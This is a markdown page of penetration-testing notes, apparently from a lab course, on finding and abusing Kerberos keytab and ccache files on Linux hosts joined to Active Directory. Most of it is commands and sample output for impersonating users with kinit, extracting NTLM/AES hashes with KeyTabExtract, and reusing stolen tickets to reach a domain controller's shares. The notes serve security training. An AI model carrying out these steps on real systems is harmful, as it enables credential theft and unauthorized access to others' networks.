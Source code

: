 
## Identifying Linux and Active Directory Integration

### realm - Check If Linux Machine is Domain Joined
```
realm list
```

### command line - Check if Linux Machine is Domain Joined
we can also look for other tools used to integrate Linux with Active Directory such as `sssd` or `winbind`. 

#### check whether the Linux server is integrated with AD using PS Command
```powershell
# You might get the output similar to below if the system is integrated with AD using SSSD service.
$ ps -ef | grep -i "winbind\|sssd"
root     29912     1  0  2017 ?        00:19:09 /usr/sbin/sssd -f -D
root        2141    2140  0 Sep29 ?        00:00:08 /usr/libexec/sssd/sssd_be --domain inlanefreight.htb --uid 0 --gid 0 --logger=files

# You might get the output similar to below if the system is integrated with AD using winbind service.
$ ps -ef | grep -i "winbind\|sssd"
root       676 21055  0  2017 ?        00:00:22 winbindd
```
#### Check whether the Linux server is integrated with AD using id Command
```powershell
$ id daygeek
uid=1918901106(daygeek) gid=1918900513(domain users) groups=1918900513(domain users)
```
#### check whether the Linux server is integrated with AD using nsswitch.conf file
```powershell
## You might get the output similar to below if the system is integrated with AD using SSSD service.
$ cat /etc/nsswitch.conf | grep -i "sss\|winbind\|ldap"

passwd:         files sss
shadow:         files sss

# You might get the output similar to below if the system is integrated with AD using winbind service.
$ cat /etc/nsswitch.conf | grep -i "sss\|winbind\|ldap"

passwd:     files [SUCCESS=return] winbind

# You might get the output similer to below if the system is integrated with AD using ldap service.
$ cat /etc/nsswitch.conf | grep -i "sss\|winbind\|ldap"

passwd:         files ldap
shadow:         files ldap
```

#### check whether the Linux server is integrated with AD using system-auth file

```powershell
# You might get the output similar to below if the system is integrated with AD using SSSD service.
$ cat /etc/pam.d/system-auth  | grep -i "pam_sss.so\|pam_winbind.so\|pam_ldap.so"
# or
$ cat /etc/pam.d/system-auth-ac  | grep -i "pam_sss.so\|pam_winbind.so\|pam_ldap.so"
auth        sufficient    pam_sss.so use_first_pass

# You might get the output similar to below if the system is integrated with AD using winbind service.
$ cat /etc/pam.d/system-auth  | grep -i "pam_sss.so\|pam_winbind.so\|pam_ldap.so"
# or
$ cat /etc/pam.d/system-auth-ac  | grep -i "pam_sss.so\|pam_winbind.so\|pam_ldap.so"
auth        sufficient    pam_winbind.so cached_login use_first_pass

# You might get the output similar to below if the system is integrated with AD using ldap service.
$ cat /etc/pam.d/system-auth  | grep -i "pam_sss.so\|pam_winbind.so\|pam_ldap.so"
# or
$ cat /etc/pam.d/system-auth-ac  | grep -i "pam_sss.so\|pam_winbind.so\|pam_ldap.so"
auth        sufficient    pam_ldap.so cached_login use_first_pass

```


## Finding Kerberos Tickets in Linux

### Finding Keytab Files
- A keytab is a file containing pairs of Kerberos principals and encrypted keys (which are derived from the Kerberos password).
- You can use a keytab file to authenticate to various remote systems using Kerberos without entering a password.
- Keytab files can be created on one computer and copied for use on other computers because they are not restricted to the systems on which they were initially created.
 
#### Using Find to Search for Files with Keytab in the Name
- The ticket is represented as a keytab file located by default at /etc/krb5.keytab and can only be read by the root user.
```powershell
$ find / -name *keytab* -ls 2>/dev/null

   131610      4 -rw-------   1 root     root         1348 Oct  4 16:26 /etc/krb5.keytab
   262169      4 -rw-rw-rw-   1 root     root          216 Oct 12 15:13 /opt/specialfiles/carlos.keytab
```
#### Identifying Keytab Files in Cronjobs
- we notice the use of kinit, which means that Kerberos is in use. kinit allows interaction with Kerberos, and its function is to request the user's TGT and store this ticket in the cache (ccache file). 
- We can use kinit to import a keytab into our session and act as the user.

```powershell
$ crontab -l

kinit svc_workstations@INLANEFREIGHT.HTB -k -t /home/carlos@inlanefreight.htb/.scripts/svc_workstations.kt
smbclient //dc01.inlanefreight.htb/svc_workstations -c 'ls'  -k -no-pass > /home/carlos@inlanefreight.htb/script-test-results.txt
```


### Finding ccache Files
- Linux machines store Kerberos tickets as ccache files in the `/tmp` directory.
- By default, the location of the Kerberos ticket is stored in the environment variable `KRB5CCNAME`.
- `KRB5CCNAME` variable can identify if Kerberos tickets are being used or if the default location for storing Kerberos tickets is changed.
- These ccache files are protected by reading and write permissions, but a user with elevated privileges or root privileges could easily gain access to these tickets

#### Reviewing Environment Variables for ccache Files.
```powershell
$ env | grep -i krb5

KRB5CCNAME=FILE:/tmp/krb5cc_647402606_qd2Pfh
```

#### Searching for ccache Files in /tmp
```
$ ls -la /tmp

-rw-------  1 julio@inlanefreight.htb  domain users@inlanefreight.htb 1406 Oct  6 16:38 krb5cc_647401106_tBswau
-rw-------  1 david@inlanefreight.htb  domain users@inlanefreight.htb 1406 Oct  6 15:23 krb5cc_647401107_Gf415d
-rw-------  1 carlos@inlanefreight.htb domain users@inlanefreight.htb 1433 Oct  6 15:43 krb5cc_647402606_qd2Pfh
```

## Abusing KeyTab Files
- The first thing we can do is impersonate a user using `kinit`.
- To use a keytab file, we need to know which user it was created for using `klist`
### Listing keytab File Information
```powershell
$ klist -k -t 

/opt/specialfiles/carlos.keytab 
Keytab name: FILE:/opt/specialfiles/carlos.keytab
KVNO Timestamp           Principal
---- ------------------- ------------------------------------------------------
   1 10/06/2022 17:09:13 carlos@INLANEFREIGHT.HTB
```

### Impersonating a User with a keytab
Note: To keep the ticket from the current session, before importing the keytab, save a copy of the ccache file present in the enviroment variable KRB5CCNAME.
```powershell
$ kinit carlos@INLANEFREIGHT.HTB -k -t /opt/specialfiles/carlos.keytab
$ smbclient //dc01/carlos -k -c ls
```

### Keytab Extract
We can attempt to crack the account's password by extracting the hashes from the keytab file using [KeyTabExtract](https://github.com/sosdave/KeyTabExtract). 
```powershell
python3 /opt/keytabextract.py /opt/specialfiles/carlos.keytab

[*] RC4-HMAC Encryption detected. Will attempt to extract NTLM hash.
[*] AES256-CTS-HMAC-SHA1 key found. Will attempt hash extraction.
[*] AES128-CTS-HMAC-SHA1 hash discovered. Will attempt hash extraction.
[+] Keytab File successfully imported.
        REALM : INLANEFREIGHT.HTB
        SERVICE PRINCIPAL : carlos/
        NTLM HASH : a738f92b3c08b424ec2d99589a9cce60
        AES-256 HASH : 42ff0baa586963d9010584eb9590595e8cd47c489e25e82aae69b1de2943007f
        AES-128 HASH : fa74d5abf4061baa1d4ff8485d1261c4
```
- With the NTLM hash, we can perform a Pass the Hash attack. 
- With the AES256 or AES128 hash, we can forge our tickets using Rubeus PtT.
- or attempt to crack the hashes to obtain the plaintext password.


## Abusing Keytab ccache
- klist displays the ticket information. We must consider the values "valid starting" and "expires." If the expiration date has passed, the ticket will not work.
- ccache files are temporary. They may change or expire if the user no longer uses them or during login and logout operations.
```powershell
ls -la /tmp
cp /tmp/krb5cc_647401106_I8I133 .
export KRB5CCNAME=/root/krb5cc_647401106_I8I133
klist
smbclient //dc01/C$ -k -c ls -no-pass
```
